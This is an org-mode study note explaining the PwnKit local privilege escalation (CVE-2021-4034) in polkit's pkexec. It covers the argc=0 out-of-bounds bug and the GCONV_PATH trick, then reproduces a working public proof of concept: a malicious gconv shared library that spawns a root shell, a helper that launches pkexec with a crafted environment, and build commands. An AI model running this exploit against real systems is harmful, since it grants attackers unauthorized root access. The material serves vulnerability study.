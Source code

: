 #+TITLE: CVEs 02 – CVE-2021-4034 – PWNKIT
#+AUTHOR: Leonardo Tamiano

* Resources
  
  About.
  - https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
  - [[https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034][PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)]]
  - https://docs.gtk.org/glib/

  PoCs:
  - https://github.com/ly4k/PwnKit
  - https://github.com/arthepsy/CVE-2021-4034/
  - https://github.com/Ayrx/CVE-2021-4034

* Introduction
  The vulnerability is a ~memory corruption~ in polkit's ~pkexec~, which
  is a SUID-root program that is installed by default on many linux
  distributions.

  The vulnerability is easily exploitable and leads to root
  privileges.

  I shall now try to answer a bunch of common questions:

  - What is polkit pkexec usd for?

  - Where is the vulnerability code-wise?

  - How can we exploti it?

  - Potential damages and coverage window?

** Polkit pkexe
   Polkit (formerly PolicyKit) is a component for controlling
   system-wide privileges in Unix-like OSes.

   It allows to:

   - organize the way non-privilege process are able to communicate
     with privileged ones.

   - execute commands with elevated privileges.

** Potential damage and coverage window
   A succesful exploitation leads to full root privileges on the
   vulnerable host.

   This vulnerability has been hiding in plain sight for 12+ years,
   and it affects all versions of ~pkexec~ since its first version in
   may 2009 with commit ~c8c3d83~ called "Add a pkexec(1) command".
   
** Disclosure Timeline
   The disclosure timeline was:

   - 2021/11/18 sent vulnerability.
   - 2022/01/11 advisory and patch.
   - 2022/01/25 coordinated release date.

* How does it work?
  To demo this shit maybe we can pull from the original repo, which I think is the following one

  [[https://gitlab.freedesktop.org/polkit/polkit/-/tree/master][gitlab - polkit]]

  then we go back to a release before commit ~a2b5c9c~. For example we
  could go back to the previous one such as ~4ff1abe4~, or to the first
  that introduced the ~pkexec()~ program such as ~c8c3d83~.

  #+begin_src sh
git clone https://gitlab.freedesktop.org/polkit/polkit.git
cd polkit
git checkout 4ff1abe4a4c1f8c8378b9eaddb0346ac6448abd8
  #+end_src

  Andiamo quindi ad analizzare il file ~polkit/src/programs/pkexec.c~.

  # TODO: add code

  The basic functioning of the pkexec program is that it takes in
  input the path of a program. If the path is not absolute, the
  program is searched in the directories of the PATH environment
  variables.

  Now, typically when programs execute the value of ~argc~ is always 1,
  and the value of ~argv[1]~ is a pointer that points to the name of the
  program being invoked. This is because of how the shell is written.

  If we instead use directly q the system call ~execve()~ to call a new
  program, we can set ~argc~ to 0, and thus ~argv[0]~ would point to ~NULL~,
  the list's terminator.

  That's where the problem arises, because in the original code there
  is a for loop which sets a variable ~n~ to be ~1~

  #+begin_src c
for (n = 1; n < (guint) argc; n++) {
  // ...
 }
  #+end_src

  If ~argc~ is ~0~ this loop never executes, but ~n~ is simply set to ~1~.

  After some lines then we call a function called ~g_strdup()~ with the
  value ~argv[n]~, which in our execution will be ~argv[1]~. Notice how
  this is where the *memory corruption* occurs: sicne ~argc~ was ~0~, the
  ~argv~ array of pointers was supposed to only contain a single ~NULL~
  element.

  This call duplicates a string, and its made to copy the path that is
  then used for searching the program.

  #+begin_src c
path = g_strdup (argv[n]);
  #+end_src

  This means that *the pointer path is read out-of-bounds from argv[1]*.

  Finally ,continuing, if the supposed name of the program does not
  start with a ~/~, then we find the program in the path using
  ~g_find_program_in_path()~ and we do a write out-of-bounds to *argv[1]*.

  #+begin_src c
if (path[0] != '/')
{
  // ...
  s = g_find_program_in_path (path);
  // ...
  argv[n] = path = s;
}
  #+end_src
  
  Now we know we have a memory corruption. The next thing to
  understand is how this can be exploited.

  When we ~execve()~ a new program, the kernel copies our argument, env
  strings, and pointers (argv and envp) to the end of the new
  program's stack.

  #+begin_example
|---------+---------+-----+------------|---------+---------+-----+------------| 
| argv[0] | argv[1] | ... | argv[argc] | envp[0] | envp[1] | ... | envp[envc] | 
|----|----+----|----+-----+-----|------|----|----+----|----+-----+-----|------| 
V         V                V           V         V                V 
"program" "-option"           NULL      "value" "PATH=name"          NULL 
  #+end_example

  Notice how ~argv~ and ~envp~ are contiguous in memory. This means that
  if ~argc~ is ~0~, then the out-of-bounds argv[1] is actually envp[0],
  the pointer to the first environment variable, "value".

  In steps, this means that:

  1. the path of the program to be executed is read out-of-bounds from
     ~argv[1]~, which is actually ~envp[0]~, which is the pointer to the
     first enviromental variable, "value".

  2. the path "value" is passed to ~g_find_program_in_path()~ since
     "value" does not start with a slash.

  3. If such an executable file is found, its full path is returned to
     pkexec's main().

  4. Finally, this full path is written out-of-bounds to argv[1],
     which is envp[0], thus allowing us to overwrite our first
     environment variable.
  
  Said in another way:

  - If our PATH environment variable is "PATH=name", and if the
    directory "name" exists (in the cwd) and contains an executable
    file named "value", then a pointer to the string "name/value" is
    written out-of-bounds to envp[0];

  - If our PATH is PATH=name=.", and if the directory "name=." exists
    and contains an executable file named "value", then a pointer to
    the string "name=./value" is written out-of-bounds to envp[0].
  
  This means that this out-of-bounds allows us to re-introduce an
  "unsecure" environment variable, like ~LD_PRELOAD~ into pkexec's
  environment, which are typically removed by ~ld.so~ in case of a SUID
  program.

  ------------------------------------------
  
  The actual variable to introduce is found in the Glib library, which
  is a GNOME library written in C for doing small things. 
  
  In particular this vulnerability is used in the context of printing
  error messages, with the function ~g_printerr()~. Both the functions
  ~validate_environment_variable()~ and ~log_message()~ internally cal
  ~g_printerr()~.
  
  ~g_printerr()~ normally prints UTF-8 error messages, but it can print
  messages in another charset if the environment variable ~CHARSET~ is
  not ~UTF-8~. To convert from UTF-8 to another charset, ~g_printerr()~
  calls ~glib'c~ function ~iconv_open()~.
  
  Finally, ~iconv_openn()~ executes small shared libraries, which are
  typically read from a default configuration file in
  ~/usr/lib/gconv/gconv-modules~.
  
  Alternatively, the environment variable ~GCONV_PATH~ can force
  ~iconv_open()~ to read another configuration file. 
  
  Sicne ~GCONV_PATH~ allows one to execute arbitrary libraries, it is
  typically removed by ~ld.so~ when executing SUID binaries. However,
  since ~CVE-2021-4034~ allows us to re-introduce ~GCONV_PATH~ into
  pkexec's environment, we are able to execute our own shared library,
  as root.

* PoC
  Taken from https://github.com/mebeim/CVE-2021-4034
  
  #+begin_src sh
git clone https://github.com/mebeim/CVE-2021-4034
cd CVE-2021-4034
./expl.sh
  #+end_src

  First we create a fake gconv module which runs arbitrary code
  
  #+begin_src c
/**
 ,* A fake gconv module (shared library) which runs arbitrary code when loaded by
 ,* the dynamic loader.
 ,*/

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <syscall.h>
#include <sys/types.h>

void __attribute__ ((constructor)) init(void) {
	if (geteuid() == 0) {
		fputs("Pwned!\n", stderr);

		setuid(0);
		setgid(0);
		setegid(0);

		setenv("PATH", "/usr/local/bin:/usr/bin:/bin", 1);
		execvp("sh", (char *[]){"sh", NULL});
		perror("execvp failed");
	} else {
		fputs("Failed :(\n", stderr);
	}

	syscall(SYS_exit_group, 1);
}
  #+end_src

  Then we use an ~helper.c~ to execute ~execvpe~ so as to copy the
  environment aswell.
  
  The environment we will define is constructed in such a way as to
  allow the exploit to work.
  
  #+begin_src c
/**
 ,* Just an helper to run pkexec with empty argv and the appropriate env vars.
 ,*/

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {
	char *const envp[] = {
		// This pointer will be overridden by pkexec with an OOB write on argv.
		"fake_exe",

		// If this dir exists and fake_exe exists within it,
		// g_find_program_in_path() will return "GCONV_PATH=./fake_exe", which
		// will overwrite envp[0] essentially setting up the GCOV_PATH env var.
		"PATH=GCONV_PATH=.",

		// A shell that is not present under /etc/shells, so that pkexec's
		// validate_environment_variable() fails, calling g_printerr().
		"SHELL=x",

		// An encoding that is not UTF-8 (even made up), so g_printerr() invokes
		// a loadable module for string conversion as specified by the config
		// file $GCONV_PATH/gconv-modules, which in this case will point to
		// fake_module.so compiled from fake_module.c.
		"CHARSET=banana",
		NULL
	};

	execvpe("pkexec", (char *[]){NULL}, envp);
	perror("execvpe failed");
	return 1;
}

  #+end_src

  Then, to make this work, we first compile the fake_module as a
  shared library which will then be called by ~g_printerr()~ and the
  helper binary.

  #+begin_src sh
gcc -fPIC -shared -o fake_exe/fake_module.so fake_module.c
gcc -o helper helper.c
  #+end_src

  
  

